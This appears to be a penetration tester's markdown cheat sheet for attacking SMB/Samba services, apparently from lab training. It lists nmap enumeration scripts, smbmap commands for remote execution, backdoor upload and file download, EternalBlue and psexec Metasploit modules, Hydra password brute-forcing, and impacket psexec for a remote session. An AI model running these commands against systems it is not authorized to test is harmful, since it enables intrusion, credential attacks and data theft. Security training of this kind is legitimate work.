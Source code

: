 # Nmap

- `nmap -sU --top-ports 25` : port 137, 138 are udp smb ports. check if open.

## Nmap enum scripts

- `nmap -sU --top-ports 25 <ip>`

  ![SMB UDP ports](./images/nmap-01.png)

- smb-protocols : list supported protocols
	- if v1 is enabled - EternalBlue exploit?
- smb-security-mode : guest account enabled?
- smb-os-discovery.nse : NetBIOS computer name and OS
- smb-enum-sessions : enum logged in users
- smb-enum-sessions --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-users.nse : list all users that exist on samba version

  ![smb-enum-users.nse output](./images/nmap-02-enumusers.png)

- smb-enum-shares : enum shares as guest
- smb-enum-shares,smb-ls --script-args smbusername=<user>,smbpassword=<pass> : Enumerating all the shared folders and drives then running the ls command on all the shared folders.
- smb-enum-shares --script-args smbusername=<user>,smbpassword=<pass>
	- if IPC$ share had RW perms - lets anon users enum shares, accounts etc
- smb-enum-users --script-args smbusername=<user>,smbpassword=<pass>: enum user acc on target sys
- smb-server-stats --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-domains --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-groups --script-args smbusername=<user>,smbpassword=<pass>
- smb-enum-services --script-args smbusername=<user>,smbpassword=<pass>

# SMBMAP

- Allows users to enumerate samba share
- Allows file upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- `smbmap -H <ip> -u guest -p "" -d <domain>` 

  ![smbmap output](./images/smbmap-01.png)

- `smbmap -H <ip> -u guest -p "" -d .`
- `smbmap -H <ip> -u <user> -p <pass> -x 'ipconfig'` : execute command on remote host
- `smbmap -H <ip> -u <user> -p <pass> -L` : list all drives (C: or D:)

  ![smbmap list drives output](./images/smbmap-02.png)  ￼ 

- `smbmap -H <ip> -u <user> -p <pass> -r 'C$'` : list contents of C:\

  ![smbmap list contents of drive](./images/smbmap-03.png) 

- `smbmap -H <ip> -u <user> -p <pass> --upload '/root/backdoor' 'C$\backdoor'`
  
  ![smbmap upload backdoor output](./images/smbmap-04.png) 

- `smbmap -H <ip> -u <user> -p <pass> --download 'C$\flag.txt'`

  ![smbmap download flag output](./images/smbmap-05.png) 

# Metasploit Modules

- auxiliary/scanner/smb/smb_version - exact version of smb
- auxiliary/scanner/smb/smb2 - smb2 protocol supported?
- auxiliary/scanner/smb/smb_enumusers
- auxiliary/scanner/smb/smb_enumshares
- auxiliary/scanner/smb/pipe_auditor : determine what named pipes are accessible over SMB  (req creds)
- auxiliary/scanner/smb/smb_login
- auxiliary/scanner/smb/smb_ms17_010 - eternalblue vuln tester
- exploit/windows/smb/psexec

# Hydra

- `hydra -l <user> -P <pass_wordlist> 192.212.251.3 smb`
	
# Nmblookup

- `nmblookup -A <ip>`

	![nmblookup output](./images/nmblookup-01.png) 
	￼

# SMBclient

- `smbclient -L <ip> -N` : list sharenames and domains with no pass with anonymous connection.
- `smbclient -L <ip> -U <user>` : authenticate as a user with legit creds
- `smbclient //<ip>/public -N`
- `smbclient //<ip>/public -U <user>` 
	- smb> ls
	- smb> get flag

# RPCclient

- `rpcclient -U "" -N <ip>` : check anonymous login allowed - if no errors
- rpcclient $>
	- srvinfo : os version of samba server
	- enumdomgroups : enum domain groups
	- enumdomusers : enum domain users
	- lookupnames admin : get SID of user "admin"

# Enum4linux

- `enum4linux -o <ip>` : get os version
- `enum4linux -U <ip>` : enum users (use -u <user> -p <pass> for auth enum)
- `enum4linux -S <ip>` : enum shares
- `enum4linux -G <ip>` : enum domain groups
- `enum4linux -i <ip>` : get printer info'

	![enum4linux printer output](./images/enum4linux-01.png) 
	
- `enum4linux -r -u "admin" -p "password" <ip>` : enum users via RID cycling. S-1-22-1-1003 etc.

# PSExec (Authenticated)

- cp /usr/share/doc/python3-impacket/examples/psexec.py /root/Desktop
- chmod +x psexec.py
- python3 psexec.py Administrator@ip
- this will provide remote session

# References

1. Samba (https://www.samba.org/)
2. smbclient (https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
3. rpcclient (https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
4. nmblookup (https://www.samba.org/samba/docs/current/man-html/nmblookup.1.html)
5. enum4Linux (https://tools.kali.org/information-gathering/enum4linux)
6. THC Hydra (https://tools.kali.org/password-attacks/hydra)
7. smbmap (https://tools.kali.org/information-gathering/smbmap)
8. Metasploit Module: SMB Session Pipe Auditor (https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor)